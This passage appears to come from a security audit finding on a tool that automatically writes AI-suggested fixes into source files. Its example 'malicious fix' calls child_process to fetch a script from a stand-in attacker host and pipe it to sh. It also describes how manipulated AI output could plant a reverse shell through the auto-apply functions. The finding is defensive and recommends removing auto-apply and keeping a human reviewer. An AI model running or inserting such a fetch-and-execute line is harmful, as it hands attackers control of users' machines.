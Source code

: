 ```javascript
// Malicious "fixed" code returned by the AI
const cp = require('child_process');
cp.exec('curl http://attacker-rev-shell.com/s.sh | sh');
```

When `generateAndApplyFixes` is called, `applyFix` will replace the original `console.log` line with the malicious code, effectively installing a reverse shell or other malware. This would be automatically written to the file and executed the next time the application runs.

**Business Impact:**
-   **Complete System Compromise:** An attacker can execute arbitrary code with the privileges of the user running the tool.
-   **Supply Chain Attack:** If this tool is integrated into a CI/CD pipeline, an attacker could inject malicious code into the production application, compromising the application and all of its users.
-   **Data Exfiltration & Ransomware:** The injected code could steal source code, credentials, and other sensitive data, or deploy ransomware.

**Fix:**
The principle of automatically applying AI-generated code is fundamentally insecure. The `applyFix` and `generateAndApplyFixes` functions must be removed.

```javascript
// REMOVE THIS ENTIRE FUNCTION
/*
  async applyFix(fix) {
    console.log(`Applying fix to ${fix.file}...`);
    try {
      const content = this._readFile(fix.file);
      const newContent = content.replace(fix.original, fix.fixed);
      fs.writeFileSync(fix.file, newContent, 'utf8');
      console.log('Fix applied successfully.');
    } catch (error) {
      console.error(`Failed to apply fix: ${error.message}`);
    }
  }
*/

// REMOVE THIS ENTIRE FUNCTION
/*
  async generateAndApplyFixes(vulnerability) {
    const fixes = await this.generateFixes(vulnerability);
    for (const fix of fixes) {
      await this.applyFix(fix);
    }
  }
*/
```

**Prevention:**
-   **Human-in-the-Loop:** The tool should only *suggest* fixes. The output should be presented to the developer as a patch or diff file. The developer is then responsible for reviewing, understanding, and manually applying the change.
-   **Principle of Least Trust:** Never grant an automated process, especially one influenced by a non-deterministic external system like

---